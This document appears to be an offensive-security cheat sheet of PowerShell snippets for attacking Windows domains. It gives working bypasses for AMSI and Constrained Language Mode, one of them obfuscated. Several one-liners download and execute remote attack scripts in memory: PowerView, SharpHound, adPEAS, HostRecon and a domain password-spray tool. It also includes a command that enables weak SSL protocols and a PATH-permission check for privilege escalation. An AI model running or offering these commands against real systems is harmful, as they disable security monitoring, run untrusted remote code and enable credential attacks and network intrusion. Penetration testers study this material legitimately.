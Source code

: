 ### Bypasses
------------
##### Powershell CLM Bypass:
~~~
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe  -ExecutionPolicy bypass"
sleep 5
#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
~~~

##### Powershell Obfuscated AMSI Bypass:
~~~
$w='System.Management.Automation.A';$c='si';$m='Utils'
$assembly=[Ref].Assembly.GetType(('{0}m{1}{2}'-f$w,$c,$m))
$field=$assembly.GetField(('am{0}InitFailed'-f$c),'NonPublic,Static')
$field.SetValue($null,$true)
~~~

##### Powershell Modified AMSI .Net Bypass script - In Memory
~~~
IEX (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/shantanu561993/6483e524dc225a188de04465c8512909/raw/db219421ea911b820e9a484754f03a26fbfb9c27/AMSI_bypass_Reflection.ps1')
~~~

### Scripts - In Memory
-----------------------
#### Host Recon
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1');
Invoke-HostRecon
~~~

#### ConvertTo-PowerShell
~~~
IEX (New-Object Net.Webclient).DownloadString('https://github.com/cfalta/PowerShellArmoury/raw/2d9bea5e1c10353186fe75ebc28c5e596247dca3/utilities/ConvertTo-Powershell.ps1');
~~~

##### Powerview
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
~~~

##### Spray
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/DomainPasswordSpray/master/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Domain <domain> -Password password
~~~
##### Sharphound
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1'); Invoke-BloodHound -Domain <domain> -CollectionMethod All
~~~
##### Safe SSL/TLS-Channel
~~~
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Ssl3 -bor [
Net.SecurityProtocolType]::Ssl2 -bor [Net.SecurityProtocolType]::Tls -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.Se
curityProtocolType]::Tls12
~~~
##### BloodHound collector (adPEAS)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/6110
6960/adPEAS/main/adPEAS.ps1'); Invoke-adPEAS -Module Bloodhound -Scope All
~~~
##### Check PATH of host and permissions on each folder in PATH (PowerShell function)
~~~
function Invoke-PathCheck {
    param (
        [string]$AccesschkPath = ".\accesschk64.exe"
    )

    # Controleer of accesschk64.exe bestaat
    if (-Not (Test-Path $AccesschkPath)) {
        Write-Host "accesschk64.exe not found at $AccesschkPath"
        return
    }

    # Split de $Env:Path en controleer permissies voor elke map
    $Env:Path -split ";" | ForEach-Object {
        $path = $_.Trim()
        if (-Not [string]::IsNullOrWhiteSpace($path)) {
            Write-Host "[+] Checking permissions for: $path"
            & $AccesschkPath -wud -accepteula $path
            Write-Host "---------------------------"
        }
    }
}

# Roep de functie aan
Invoke-PathCheck -AccesschkPath "C:\Path\to\accesschk64.exe"
~~~
##### Just check PATH
~~~
$Env:Path -split ";" | ForEach-Object { $_ }
~~~

